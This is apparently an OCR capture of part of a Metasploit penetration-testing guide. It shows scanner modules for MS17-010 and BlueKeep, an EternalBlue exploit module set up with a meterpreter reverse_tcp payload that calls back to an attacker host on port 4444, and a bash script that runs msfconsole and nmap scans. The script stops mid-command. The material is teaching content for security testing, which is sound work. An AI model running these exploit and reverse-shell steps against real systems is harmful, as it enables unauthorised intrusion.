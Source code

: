 ## Vulnerability Verification

### Auxiliary Scanner Modules

```bash
# Check for MS17-010 vulnerability
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <target_ip>
run

# Verify RDP vulnerabilities
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS <target_ip>
run
```

### Manual Exploit Testing

```bash
# Test EternalBlue vulnerability
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <kali_ip>
set LPORT 4444
check
```

## Advanced Analysis Techniques

### Database Analysis Command

```bash
# Analyze database for potential exploits
analyze

# Analyze specific host
analyze -h <target_ip>

# Show vulnerability details
vulns
```

### Custom Search Scripts

```bash
#!/bin/bash
# vulnerability_scanner.sh
TARGET=$1

echo "[*] Starting vulnerability scan for $TARGET"

# Service discovery
msfconsole -q -x "
workspace -a scan_$TARGET;
setg RHOSTS $TARGET;
db_nmap -sS -sV $TARGET;
services;
exit"

# Vulnerability analysis
msfconsole -q -x "
workspace scan_$TARGET;
analyze;
```